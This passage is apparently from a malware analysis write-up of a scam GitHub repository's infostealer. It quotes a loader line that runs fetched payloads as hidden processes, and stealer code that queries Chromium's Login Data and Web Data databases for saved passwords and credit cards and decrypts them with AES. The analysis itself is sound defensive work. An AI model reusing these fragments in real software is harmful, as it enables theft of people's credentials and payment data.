 ```python
    if ot=="Windows":subprocess.Popen([sys.executable, ap], creationflags=subprocess.CREATE_NO_WINDOW | subprocess.CREATE_NEW_PROCESS_GROUP)
    else:subprocess.Popen([sys.executable, ap])
```

As we can see, this file continue get 2 payload files from 2 endpoint: ```/payload``` and ```brow``` then execute them.

<hr style="border: none; border-top: 1px solid #ccc;">

From the ```/brow``` endpoint, I received the file ```Brow106_81.py```, encrypted in the same way as ```main106_81.py``` mentioned earlier. Below is the link of```Brow106_81.py```:
[Brow106_81.py](https://github.com/VuxNx/REPO_SCAM_WU/blob/master/brow_decrypt.py).

We will dive into this code. It's really fantacy.

### Deeper in Brow106_81.py

This code performs the following actions:

#### 1. It targets browsers’ login and web data SQLite databases

The class `ChromeBase` has these methods:

- **`retrieve_database()`**: Extracts saved login credentials:

```python
cursor.execute(
    "select origin_url, action_url, username_value, password_value, date_created, date_last_used from logins order by date_created"
)
```

>  This SQL query targets the `Login Data` SQLite database used by Chromium-based browsers to store credentials.

- **`retrieve_web()`**: Extracts saved credit card data:

```python
cursor.execute(
    'SELECT name_on_card, expiration_month, expiration_year, card_number_encrypted, date_modified FROM credit_cards'
)
```

>  It accesses the `Web Data` (or related database) to retrieve stored credit card numbers, decrypts them, and appends them to `self.webs`.

#### 2. **It decrypts saved credentials and credit card numbers**

- **On Linux/macOS**:

```python
cipher = AES.new(key, AES.MODE_CBC, IV=iv)
return cipher.decrypt(password).strip().decode('utf8')
```
